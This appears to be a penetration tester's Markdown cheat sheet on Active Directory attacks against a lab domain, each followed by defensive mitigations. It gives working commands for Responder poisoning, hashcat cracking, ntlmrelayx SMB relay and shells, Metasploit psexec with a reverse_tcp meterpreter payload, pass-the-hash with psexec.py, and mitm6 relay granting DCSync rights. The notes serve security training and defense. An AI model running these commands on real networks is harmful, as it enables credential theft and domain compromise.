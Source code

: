 ### LLMNR  (Link Local Multicast Name Resoultion)
Used to identify hosts when DNS fails, previously called NBT-NS  
`/usr/share/responder/Responder.py -I eht0 -rdw -v `  
`sudo responder -I tun0 -dwP`   

find the MODE -m needed for hashcat  
`hashcat --help | grep -i ntlm `  
**crack found hashes**  
`hashcat -m 5600 hashes.txt rockyou.txt`  
`hashcat -m 5600 hashes.txt rockyou.txt --show`   -- show already found passwords  
`hashcat -m 5600 hashes.txt rockyou.txt -r OneRule` -- mutates hashes list with additional permutations  
*rockyou2021 is 91gb.. better for real world scenarios*  
`hashcat -m 5600 hashes.txt rockyou.txt -O` -- optimizes hardware for metal pw cracker  

#### LLMNR Defense
Disable LLMNR "Turn OFF Multicast Name Resolution" :: GPO-> local computer ->comp configuration->admin template->Network DNS Client   
Disable NBT-NS :: Network Connections -> Network Adapter Prop -> TCP IPV4 -> Advanced -> Wins -> Disable NetBIOS over TCP/IP  
Require Network Access Control (NAC)  
Require strong passwords >14 charcaters  

***  

### SMB Relay   
Instead of cracking hashes, relay those hashes to machines for access.  [[SMB]] #SMB 
SMB signing must be disabled or not enforced  
Relayed credentials should be admin to be useful  

***Identify HOSTS without SMB Signing  ***  
`nmap --script=smb2-security-mode.nse -p445 192.168.176.0/24`  

1. Modify responder to turn off SMB/HTTP so we can relay hashes, instead of capturing   
`sudo mousepad /etc/responder/Responder.conf`  
2. Run responder `sudo responder -I eth0 -dwP`    
3. Setup RELAY `sudo ntlmrelayx.py -tf targets.txt -smb2support`  
targets.txt has hsots without SMB signing enforced/enabled  

`sudo ntlmrelayx.py -tf targets.txt -smb2support -i`  spawns interactive shell  `nc 127.0.0.1 11000`  
`sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`   runs commmand listed by -c   

#### SMB Relay Defense
Enable SMB Signing on all devices  
Disable NTLM Auth on network  
Account tiering  
Local Admin restriction  
***  
### Gaining Shell Access  
#### MetaSploit
[[METASPLOIT]]
`use exploit/windows/smb/psexec`  
`set payload windows/x64/meterpreter/reverse_tcp`
RHOSTS:192.168.176.137 smbdomain:Marvel.local smbUser:fcastle SMBPass:Password1  --> EXPLOIT  

#### psexec.py
`psexec.py marvel.local/fcastle:'Password1'@192.168.176.137`   - Less noisy  than metasploit  
`psexec.py administrator@192.168.176.137 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f`  

can also try `wmiexec.py` or `smbexec.py`   
***

### IPv6 Attacks   
`sudo mitm6 -d marvel.local`  
`sudo ntlmrelayx.py -6 -t ldaps://192.168.176.121 -wh fakewpad.marvel.local -l lootme`  
It creates new users, and modifies root domain ACL with replication privs:   
 ` "User dIVShTPABW now has Replication-Get-Changes-All privileges on the domain [*] Try using DCSync with secretsdump.py and this user :) `  

#### IPv6 Mitigations
Block DHCPv6 traffic  and incoming router advertiseiemts in Win Firewall via GPO  
- Inbound core networking - dynamic host configuration protocol for ipv6(dhcpv6-in)  
- Inbound core networking - Router Advertisement (ivmpv6-in)  
- outbound core networking - dhcp fo ipv6(dhcpv6-out)  
Disable WPAD if not needed viw GPO and disabling service "WinHttpAutoProxySvc" Service  
Enable both LDAP signing and LDAP channel binding  - prevents LDAP relaying  
Add admins to protected users group, and sensitive and cannot be delegated, to prevent impersonation of the user via delegation  
***
### Passback Attack - MFP
If you can find a MFP, printer/scanner, with LDAP credenetials.. change the IP for DC to your attack workstaiton, start responder or NC.. 
***  
### Initial Strategy  
1. Begin day with Responder or mitm6  #mitm6 #responder #strategy
3. Run scans, nessus/vuln, to generate traffic  
4. If scans are taking to long, look for websites in scope (http_version)  
5. Look for default credentials on web logins (printers/jenkins/etc)  
6. Think outside the box


